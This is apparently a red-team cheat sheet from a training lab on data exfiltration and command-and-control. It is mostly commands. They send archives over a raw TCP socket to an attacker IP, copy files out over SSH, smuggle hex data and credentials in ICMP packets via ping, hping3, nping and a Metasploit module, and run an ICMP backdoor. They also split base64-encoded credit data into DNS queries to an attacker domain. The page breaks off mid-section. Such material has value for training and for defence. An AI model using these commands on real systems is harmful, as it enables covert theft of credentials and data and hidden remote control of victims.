

# Data Exfiltration

Exfiltration using TCP Socket

[Exfiltration using SSH](./#exfiltration-using-ssh)

[Exfiltration using ICMP](./#exfiltration-using-icmp)

Exfiltration using DNS

Exfiltration using HTTPS

***

## Network Infrastructure

<figure><figcaption></figcaption></figure>

How to use Data Exfiltration

There are three primary use case scenarios of data exfiltration, including:

1. Exfiltrate data
2. Command and control communications.
3. Tunneling

**Traditional Data Exfiltration**


C2 Communications


**Tunneling**

<figure><figcaption></figcaption></figure>

***

## Exfiltration using TCP Socket

<figure><figcaption></figcaption></figure>

1. Listening on port TCP/8080 in attacker machine

```
nc -lvp 8080 > /tmp/task4-creds.data
```

2. Exfiltrate Data over TCP Socket from the victim machine!

```
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/10.0.0.100/8080
```

3. at Attacker machine Restoring the tar file

```
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
```

4. Uncompressing the tar file

```
tar xvf task4-creds.tar
```

***

## Exfiltration using SSH

<figure><figcaption></figcaption></figure>

1. Exfiltration data from the victim1 machine

```
tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

```
scp creds.txt thm@jump.thm.com:/tmp/
```

***

## Exfiltration using ICMP

#### Simple Data Exfiltration

1. convert it to its Hex

```
echo "secret key" | xxd -p
```

2. Send Hex using the ping command. (pattern)

```
ping 10.112.133.220 -c 1 -p 74686d3a7472796861636b6d650a
```

3. send file using the hping tool

```
sudo hping3 -E secret.txt -1 -u -d 1400 192.168.1.100
```

#### Exfiltration with Metasploit and nping

<figure><figcaption></figcaption></figure>

BOF : `Beginning Of File`

EOF : `End Of File`

1. setup metasploit module

```
use auxiliary/server/icmp_exfil
set BPF_FILTER icmp and not src ATTACKBOX_IP
set INTERFACE eth0
run
```

2. send `Beginning Of File`  (BOF) with nping

```
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
```

3. send data&#x20;

```
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
```

4. `send End Of File` (EOF)

```
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
```

### ICMP C2 Communication

[ICMPDoor](https://github.com/krabelize/icmpdoor)

1. Run the icmpdoor command on the target machine

```
sudo icmpdoor -i eth0 -d ATTACKER_IP
```

<figure><figcaption></figcaption></figure>

2. setup Command\&Control

```
sudo icmp-cnc -i eth1 -d target_ip
```

<figure><figcaption></figcaption></figure>

***

## Exfiltration using DNS

### DNS Data Exfiltration

<figure><figcaption></figcaption></figure>

1. Capturing DNS requests on the Attacker Machine

```
sudo tcpdump -i eth0 udp port 53 -v 
```

2. Encoding the Content and Splitting the content into multiple DNS requests

```
cat credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/' 
```

3. Send the Encoded data via the dig command in one liner

<figure><figcaption></figcaption></figure>

4. Cleaning and Restoring the Receiving Data

```
echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```

### C2 Communications over DNS (Tunneling)


DNS Exfiltration in Use case of DNS Tunneling


1. Encode the Bash Script as Base64 Representation

